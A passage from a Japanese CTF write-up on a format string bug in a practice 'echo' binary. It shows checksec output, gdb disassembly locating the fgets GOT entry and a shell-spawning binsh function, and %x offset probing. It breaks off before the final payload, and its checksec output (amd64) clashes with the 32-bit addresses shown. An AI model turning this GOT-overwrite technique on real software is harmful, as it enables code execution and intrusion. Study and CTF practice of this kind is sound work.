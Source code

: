 　今回の実行ファイルでは、RELROが Fullでない場合を考えていきたい。なお、どのような保護機構が有効かどうかを調べるためにはchecksecというのが便利である（sig-ctf-2017の仮想環境には入るようになっている）。

```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ checksec echo
[*] '/home/vagrant/shared-folder/problems/echo/echo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
これを見るとわかるように、Partial RELROに今回のechoバイナリはなっている。


### Exploitコード

　今回も簡易化のために、binshという関数が用意されている。方針としては、fgetsのGOTのアドレスをbinsh関数のアドレスで上書きする。

```
gdb-peda$ disass 0x80483c0
Dump of assembler code for function fgets@plt:
   0x080483c0 <+0>:	jmp    DWORD PTR ds:0x804a014
   0x080483c6 <+6>:	push   0x10
   0x080483cb <+11>:	jmp    0x8048390
```

および、

```
gdb-peda$ disass binsh
Dump of assembler code for function binsh:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	sub    esp,0x18
   0x08048503 <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x0804850a <+13>:	call   0x80483d0 <system@plt>
   0x0804850f <+18>:	leave
   0x08048510 <+19>:	ret
```
から、目標のアドレスがそれぞれ0x804a014と、0x080484fdであることが確認される。

しばしば、FSBはpwntoolsのようなライブラリを使って必要な攻撃コードを用意することが可能であるが、今回はそれでは味気がないし何をしているのか分からない感じになるので、自分で攻撃コードを作る。

まず次のように何番目指定子が、実際の引数に当たるのかを調べる
```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ ./echo
%x %x %x %x %x %x
64 f77b7c20 0 ffc823a4 25c82318 78252078
```
これを見ると"%x "にあたるAsciiの値列0x25 0x78 0x20の逆順（リトルエンディアンなので）が、5番目から6番目にかけて見える。したがって、ここが起点になることが分かる。今回、特定のアドレスを4byteでアラインされた位置に置く必要がある。これは、次のように直接参照するからで、

```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ ./echo
%6$x
78243625
```
